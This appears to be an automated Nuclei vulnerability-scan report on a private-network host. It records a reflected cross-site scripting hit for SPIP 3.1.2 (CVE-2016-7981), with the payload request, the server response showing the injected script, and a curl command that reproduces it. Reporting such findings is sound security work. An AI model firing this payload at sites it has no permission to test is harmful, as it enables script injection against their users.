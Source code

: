 ### SPIP 3.1.2 XSS (CVE-2016-7981) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2016-7981**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/ecrire/?exec=valider_xml&var_url=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:07 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | SPIP 3.1.2 XSS |
| Authors | pikpikcu |
| Tags | cve, cve2016, xss, spip |
| Severity | medium |
| Description | Cross-site scripting (XSS) vulnerability in valider_xml.php in SPIP 3.1.2 and earlier allows remote attackers to inject arbitrary web script or HTML via the var_url parameter in a valider_xml action.
 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2016-7981](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-7981) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /ecrire/?exec=valider_xml&var_url=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 225
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/ecrire/?exec=valider_xml&var_url="></script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2016-7981
- https://core.spip.net/projects/spip/repository/revisions/23202
- https://core.spip.net/projects/spip/repository/revisions/23201
- https://core.spip.net/projects/spip/repository/revisions/23200

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36' 'http://192.168.198.179:8080/ecrire/?exec=valider_xml&var_url=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)